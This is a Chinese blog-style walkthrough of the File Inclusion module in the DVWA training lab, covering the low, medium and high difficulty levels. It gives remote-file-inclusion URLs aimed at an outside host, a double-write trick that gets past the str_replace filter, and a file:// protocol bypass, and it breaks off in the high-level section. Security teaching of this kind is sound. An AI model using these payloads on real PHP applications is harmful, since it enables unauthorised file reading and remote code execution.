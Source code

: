 ```yaml
---
title:      " File Inclusion --dvwa"
description: "主要用来记录dvwa靶场 中 文件包含 破解方式"
author:     "伍帆"
image: "/img/home-bg.jpg"
date: 2022-06-27
published: true
tags:
    - 靶场
    - dvwa
URL: "/2022/6/File Inclusion/"
categories: [ "网安" ]
---
```


## 文件包含简介
>File Inclusion，意思是文件包含（漏洞），是指当服务器开启**allow_url_include**选项时，就可以通过php的某些特性函数（include()，require()和include_once()，require_once()）利用url去动态包含文件，此时如果没有对文件来源进行严格审查，就会导致任意文件读取或者任意命令执行。文件包含漏洞分为`本地文件包含漏洞`与`远程文件包含漏洞`，远程文件包含漏洞是因为开启了php配置中的**allow_url_fopen**选项（选项开启之后，服务器允许包含一个远程的文件）。

>![](/img/FileInclusion/0-1.png)
## low级别漏洞破解
>查看源代码
![](/img/FileInclusion/low.png)
> 可以看到，服务器端对page参数没有做任何的过滤跟检查。

服务器期望用户的操作是点击下面的三个链接，服务器会包含相应的文件，并将结果返回。需要特别说明的是，服务器包含文件时，不管文件后缀是否是php，都会尝试当做php文件执行，如果文件内容确为php，则会正常执行并返回结果，如果不是，则会原封不动地打印文件内容，所以文件包含漏洞常常会导致任意文件读取与任意命令执行。
>![](/img/FileInclusion/1-1.png)

    而现实中，恶意的攻击者是不会乖乖点击这些链接的，因此page参数是不可控的。

#### 本地文件包含漏洞
>[观看视频进行了解](https://www.bilibili.com/video/BV1JR4y1x7Rg?p=11&vd_source=f0d060adc4a7afa21464a1ed20e176c0)

可惜本次的php版本过高所以不能进行验证
>![](/img/FileInclusion/1-1.png)

#### 远程文件包含漏洞
当服务器的php配置中，选项allow_url_fopen与allow_url_include为开启状态时，服务器会允许包含远程服务器上的文件，如果对文件来源没有检查的话，就容易导致任意远程代码执行。

在远程服务器192.168.5.12上传一个phpinfo.txt文件，内容如下
![](/img/FileInclusion/1-2.png)
构造url
>http://127.0.0.1/vulnerabilities/fi/page=http://192.168.5.12/phpinfo.txt
![](/img/FileInclusion/1-3.png)

## Medium级别漏洞破解
>查看源代码
![](/img/FileInclusion/medium.png)
> 可以看到，Medium级别的代码增加了str_replace函数，对page参数进行了一定的处理，将”http:// ”、”https://”、 ” ../”、”..\”替换为空字符，即删除

    使用str_replace函数是极其不安全的，因为可以使用双写绕过替换规则。
    例如page=hthttp://tp://192.168.5.12/phpinfo.txt时，str_replace函数会将http://删除，
    于是page=http://192.168.5.12/phpinfo.txt，成功执行远程命令。
    同时，因为替换的只是“../”、“..\”，所以对采用绝对路径的方式包含文件是不会受到任何限制的。


## high 级别漏洞破解
>查看源代码
![](/img/FileInclusion/high.png)
> 可以看到，High级别的代码使用了fnmatch函数检查page参数，要求page参数的开头必须是file，服务器才会去包含相应的文件。

    High级别的代码规定只能包含file开头的文件，看似安全，不幸的是我们依然可以利用file协议绕过防护策略。file协议其实我们并不陌生，
    当我们用浏览器打开一个本地文件时，用的就是file协议，如下图。
![](/img/FileInclusion/2-1.png)

    



